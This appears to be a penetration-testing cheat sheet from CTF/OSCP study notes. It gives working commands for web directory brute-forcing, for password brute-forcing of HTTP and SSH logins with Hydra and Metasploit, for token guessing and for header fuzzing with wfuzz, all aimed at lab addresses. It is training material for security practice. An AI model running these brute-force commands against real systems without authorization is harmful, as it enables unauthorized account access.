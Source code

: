 * [Basic Scanning](#basic-scanning)
* [Directory Listing](#directory-listing)
* [Authentication](#authentication)
  * [Basic Authentication](#basic-authentication)
  * [Digest Authentication](#digest-authentication)
  * [Token Authentication](#token-authentication)
  * [hydra](#hydra)
    * [http-get](#http-get)
    * [http-post-form](#http-post-form)
    * [ssh](#ssh)   
* [Header Fuzzing and Manipulation](#header-fuzzing-and-manipulation)
  * [Fetch Header](#fetch-header)
  * [wfuzz](#wfuzz)
    * [Fuzzing User Agent String](#fuzzing-user-agent-string)
    * [Fuzzing Missing Header](#fuzzing-missing-header)
  
# Basic Scanning
## nmap
<https://github.com/jai-the-seeker/CTF-OSCP/blob/master/nmap.md#basic-scans>
## curl
<https://github.com/jai-the-seeker/CTF-OSCP/blob/master/Curl.md#http-response-headers>

# Directory Listing
## Metasploit
```sh
# bruteforce on web server directories and list the names of directories found using msfconsole
use auxiliary/scanner/http/brute_dirs
```
## Dirb
```sh
# DIRB  IS  a  Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by
# launching a dictionary basesd attack against a web server and analizing the response.
# Note: Please remember to remove the preceding ‘/’ from each of directory name entry (in the
# directory.txt). Without this change, dirb won’t work.
dirb http://192.166.161.3 directory.txt
```
## Using `curl` and bash script
We can use curl to check for all the directories listed in the wordlist. This can be done by a following wrapper bash script
<https://github.com/jai-the-seeker/CTF-OSCP/blob/master/scripts.md#directory-listing>

# Authentication
## Basic authentication
### curl
<https://github.com/jai-the-seeker/CTF-OSCP/blob/master/Curl.md#http-basic-authentication>
### metasploit 

`http_login` module
```sh
use auxiliary/scanner/http/http_login
set RHOSTS 192.165.34.3
set USER_FILE /tmp/users
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
set AUTH_URI /poc/
exploit
```
## Digest Authentication
```sh
curl --digest -u alice:password1 http://192.165.34.3/poc/
```
## Token Authentication
Hydra and metasploit `http_login` module doesn’t support token authentication.
We have to set the token in headers for token auth to work.
```sh
curl -H 'Authorization: Token <token>' 192.183.171.3
```
We have to write a custom wrapper around this command. In the script, we will rely on the fact
that on using the correct token, we will get something else than "Unauthorized Access".

You can refer this script <https://github.com/jai-the-seeker/CTF-OSCP/blob/master/scripts.md#authorization-token>

After performing the dictionary attack we will get the password, which can be used to set the token in the headers
```sh
# -H, --header <header/@file> Pass custom header(s) to server
curl -H 'Authorization: Token 123123123' 192.186.248.3
```

## Hydra
### http-get
Options

`-l` single LOGIN name or `-L` FILE having list of LOGIN names

`-p` single PASSWORD  or `-P` FILE having list of passwords

`-t` Number of threads per target (default: 16)
```sh
hydra -L unix_users.txt -P passwords.txt 192.148.69.3 http-get /
```
### http-post-form
Ref
* <https://redteamtutorials.com/2018/10/25/hydra-brute-force-https/>
* <https://www.youtube.com/watch?v=fFnEdoCyVhk&list=PLYmlEoSHldN7HJapyiQ8kFLUsk_a7EjCw&index=63>

syntax
```sh
hydra -L <USER> -P <Password> <IP Address> http-post-form "<Login Page>:<Request Body>:<Error Message>"
```
Example:
```sh
hydra -L usernames.txt -P passwords.txt 192.168.2.62 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed"
```
### ssh
```sh
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt -t 6 ssh://192.168.1.123
```
# Header Fuzzing and Manipulation
## Fetch Header
```sh
# curl -I to fetch headers and read the protection type from those headers
curl -I http://192.165.34.3/dir
# msfconsole
use auxiliary/scanner/http/http_header
```
## wfuzz
Official Website
* <https://wfuzz.readthedocs.io/en/latest/user/basicusage.html#fuzzing-paths-and-files>

There are two db wordlists associated with `wfuzz` which can be obtained from
* <https://code.google.com/p/fuzzdb/>
* <https://github.com/danielmiessler/SecLists>
### Fuzzing User Agent String
We can use `wfuzz` to check for various valid strings of the `User-Agent` by passing it a wordlist containing possible user agents strings.
The word list can of user-agents can be obtained from <https://github.com/fuzzdb-project/fuzzdb/blob/master/discovery/UserAgent/UserAgentListCommon.txt>
```sh
wfuzz -c -z file,user-agent.txt -H "User-Agent: FUZZ" http://192.8.221.3/secret
```
output
```sh

000001:  C=200      1 L        2 W           39 Ch        "Mozilla/5.0 (Windows; U; Windows NT 5.1; en-GB; rv:1.8.1.6) Gecko/20070725 Firefox/2.0.0.6"
000002:  C=403      1 L        2 W           15 Ch        "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)"
```
Here response code of `200` indicates that the `user-agent-string` is valid. The same can now be used with `curl` to verify and access the webpage
```sh
curl -H "User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; en-GB; rv:1.8.1.6) Gecko/20070725 Firefox/2.0.0.6" 192.8.221.3/secret
```
### Fuzzing Missing Header
Refs:
* <https://rootflag.io/hack-the-box-control/>

In case we see some message like `Access Denied : Header Missing`, it seems that it's expecting a certain header parameter. We can use `wfuzz` to try and determine what it might be looking for. So we can create a list of all the HTTP header responses from here. So we have some header types to fuzz now we just need our target. We were given a hint earlier that we had some files stored on a 192.168.4.28 address. We can generate a list of every IP in that scope and use that. This is what our total command will look like:
Command:
```sh
wfuzz -c -w http-headers-fuzz.txt -w ip-192-168-4-0.txt --hs "Header Missing" --sc "200" -H "FUZZ:FUZ2Z" "http://10.10.10.167/admin.php"
```
A quick breakdown of the above command:

`-c` will output with colors, I like colors.

`-w` specifies a wordlist.

`--hs` will hide responses of the type following it. In this case "Header Missing".

`--sc` will show response codes of the type following it. In this case 200.

`-H` specifies header parameters.

`FUZZ:FUZ2Z` These are the two header parameters we are fuzzing. `FUZZ` is for the first wordlist specified. `FUZ2Z` is for the second word list specified. So we have something like this in the header of our request: "Acces-Control-Allow-Origin:192.168.4.44"

`http://10.10.10.167/admin.php` Lastly, the target URL.
